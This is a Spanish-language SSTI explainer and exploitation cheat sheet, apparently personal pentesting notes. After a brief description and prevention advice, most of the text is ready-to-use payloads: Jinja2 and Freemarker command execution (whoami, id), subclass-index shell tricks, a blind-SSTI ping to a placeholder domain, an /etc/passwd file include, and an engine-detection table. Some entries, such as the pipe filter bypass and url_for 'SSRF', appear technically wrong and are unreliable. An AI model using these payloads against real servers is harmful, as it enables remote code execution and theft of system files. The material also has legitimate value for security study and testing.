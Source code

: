 -- - 
# Descripcion 
El Server-Side Template Injection (SSTI) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una plantilla de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar contenido dinámico en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como WhatWeb. Si un atacante detecta que una aplicación Flask está en uso, puede intentar explotar una vulnerabilidad de SSTI, ya que Flask utiliza el motor de plantillas Jinja2, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.
-- - 
## 📝 **Server-Side Template Injection (SSTI) Cheat Sheet**

**Siempre que vemos que esta corriendo python de fondo, flask o werkzeug hay que probar el siguiente payload:**
```flask
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }} --> payload usado para ejecutar comandos.
```
#### 🔧 **Payload Crafting**

- **Jinja2**: 
  - **Acceder a objetos de Python si el sandbox es débil**:
    ```jinja2
    {{''.__class__.__mro__[1].__subclasses__()[X]}}
    ```
    - Reemplaza `X` con un índice (por ejemplo, `135` para `os._wrap_close`) para generar shells.

- **Freemarker**: 
  - **Invocar utilidades de Java**:
    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
    ```
  
---
#### 🚀 **Bypass Tactics**

- **¿Sandboxed?** 
  - Busca configuraciones incorrectas o versiones antiguas (por ejemplo, **Jinja2 < 2.10** tenía bypasses).
- **¿Filtros activos?**
  - Utiliza cadenas con pipes:
    ```jinja2
    {{'id'|os.system}}
    ```
  
---
#### 💡 **Explotación Avanzada**

- **Blind SSTI (sin salida visible)**:
  - Genera retrasos o pings para confirmar la ejecución:
    ```jinja2
    {{().__class__.__bases__[0].__subclasses__()[X]('ping -c 10 yourdomain.com')}}
    ```

- **Inclusión de Archivos (File Inclusion)**:
  - Leer archivos secretos:
    ```freemarker
    <#include "/etc/passwd">
    ```

- **SSRF Chaining (Encadenamiento de SSRF)**:
  - Pivote interno:
    ```jinja2
    {{url_for('http://internal.service')}}
    ```
  
---

¡Pega este resumen directamente en Obsidian y tendrás una referencia rápida para técnicas de explotación SSTI! 💥

| Template Engine | Test Payload        | Success Indicator |
| --------------- | ------------------- | ----------------- |
| Jinja2          | {{7*7}}             | 49 in response    |
| Freemarker      | <#assign x=7*7>${x} | 49 in response    |
| Twig            | {{7*7}}             | 49 in response    |
| Velocity        | #set($x=7*7)$x      | 49 in response    |


### Resources
https://github.com/swisskyrepo/PayloadsAllTheThings
**tplmap:** Scans for SSTI across engines:
